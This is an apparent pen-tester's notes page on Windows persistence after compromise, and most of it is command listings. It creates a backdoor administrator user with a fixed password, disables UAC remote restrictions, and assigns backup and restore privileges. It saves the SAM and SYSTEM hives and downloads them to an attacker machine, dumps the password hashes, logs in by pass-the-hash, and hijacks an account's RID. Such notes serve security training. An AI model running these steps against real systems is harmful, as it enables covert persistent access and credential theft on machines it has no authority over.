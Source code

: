 # windows persistence 1

## Persistence in Windows

### Definition

Persistence is a post-exploitation activity used by penetration testers in order to keep access to a system throughout the whole assessment and not to have to re-exploit the target even if the system restarts.

It can be considered that there are two types of persistence. These two types are:

```
Low privileged persistence
Privileged user persistence
```

#### Low Privileged Persistence

Low privileged persistence means that the penetration tester gained and uses persistence techniques to keep his access to the target system under a normal user profile/account (a domain user with no administrative rights).

#### Privileged User Persistence

After gaining access to a system, sometimes (because it would be inaccurate to say always), a penetration tester will do privilege escalation in order to gain access to the highest privilege user that can be on a Windows machine **(nt authority\system)**.

After privilege escalation, he will use persistence in order to keep the access he gained.

***

### Persistence Techniques

#### Account Tempering Techniques

* Creating new users and assigning them to privileged groups.
* Cracking accounts hashes (SAM, SYSTEM)
* RID Hijacking

**Creating new users and assigning them to privileged groups**

```
# Create a new user
net user pentester pentest@1234 /add

# View Users
net users

# View Groups
net groups

# Add a user to administrator group
net localgroup administrators <username> /add

# Add a user to "Remote Management Users" group
net localgroup "Remote Management Users" <username> /add

# Disable UAC
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /t REG_DWORD /v LocalAccountTokenFilterPolicy /d 1

# Login using the backdoored user
evil-winrm -u pentester -p 'pentest@1234' -i 192.168.56.13

# View group details
whoami /groups

```

```
# Persistence using SeBackupPrivilege and SeRestorePrivilege

# victim machine
secedit /export /cfg config.inf

# Open the file in notepad and search for SeBackup

# append the user in the the below line
SeBackupPrivilege = *S-1-5-32-544,*S-1-5-32-549,*S-1-5-32-551,pentester

# Search for SeRestore and append the user
SeRestorePrivilege = *S-1-5-32-544,*S-1-5-32-549,*S-1-5-32-551, pentester

# convert the config.inf to config.db
secedit /import /cfg config.inf /db config.db
secedit /configure /db config.db /cfg config.inf

# Disable UAC
reg add HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Policies\System /t REG_DWORD /v LocalAccountTokenFilterPolicy /d 1

# Enable the user to login via WinRm
# powershell command
Set-PSSessionConfiguration -Name Microsoft.Powershell showSecurityDescriptorUI

# Add the user by clicking on the Add button
# Give full control
# Apply and Save

# Switch user
runas /user:pentester cmd

# attacker machine
evil-winrm -u pentester -p 'pentest@1234' -i 192.168.56.13

whoami /groups
whoami /priv

```

**Grabbing and Dumping SAM hashes**

```
# From evil-winrm interface
reg save hklm\system system.bak
reg save hklm\sam sam.bak

# Download the files in the local kali machine
download sam.bak
download system.bak

# Dumping hashes
sudo python3 secretsdump.py -sam /home/chinju/sam.bak -system /home/chinju/system.bak LOCAL

# PTH Attack using evil-winrm
evil-winrm -i <ip> -u Administrator -H <NT Hash>

```

**RID Hijacking**

```
# View RIDs
wmic useraccount get name,sid

# PsExec
PsExec.exe -i -s regedit

# Change RID

HKLM/SAM/SAM/Domains/Account/Users
```

***

## REFERENCES

* https://github.com/Shuvsec/Pentesting-Resources/blobmain/Persistence%5BPost%20Exploitation%5D.md
* https://www.ired.team/offensive-security/persistence/rid-hijacking
* https://www.hackingarticles.in/windows-privilege-escalation-sebackupprivilege/
* https://learn.microsoft.com/en-us/windows-server/administration/windows-commands/secedit

